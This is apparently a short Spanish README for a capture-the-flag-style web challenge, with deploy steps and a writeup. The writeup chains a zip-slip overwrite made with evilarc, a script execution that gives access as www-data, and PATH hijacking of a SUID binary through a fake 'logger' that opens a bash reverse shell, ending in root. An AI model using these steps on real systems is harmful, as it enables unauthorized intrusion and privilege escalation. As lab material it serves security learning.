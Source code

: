 #Instrucciones para deploy
- Dentro de application ```sudo chown root *```
- Luego ```sudo chown www-data uploads overview.sh```
- ```python3 run.py```

#Writeup

Generamos un .zip con un archivo que se llame ../overview.sh asi sobreescribimos el script que se ejecuta al visitar /overview. Para ello podemos usar la herramienta [evilarc](https://github.com/ptoomey3/evilarc).
```
python evilarc.py -o unix -d 1 overview.sh
```
Visitamos /overview para que se ejecute el script que hemos subido.
Obtenemos acceso como www-data.
Vemos en el directorio update un binario que ejecuta un script firmware_update.sh como root.
Path hijacking en el script firmware_update.sh (SUID) del binario logger, creamos un archivo ejecutable (logger):
```
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```
Y modificamos nuestra variable de entorno PATH anyadiendo la ruta en la que creamos el ejecutable (logger).
```
export PATH=$(pwd):$PATH
```
Por ultimo ejecutamos el binario firmware_update y obtenemos nuestra shell como root.
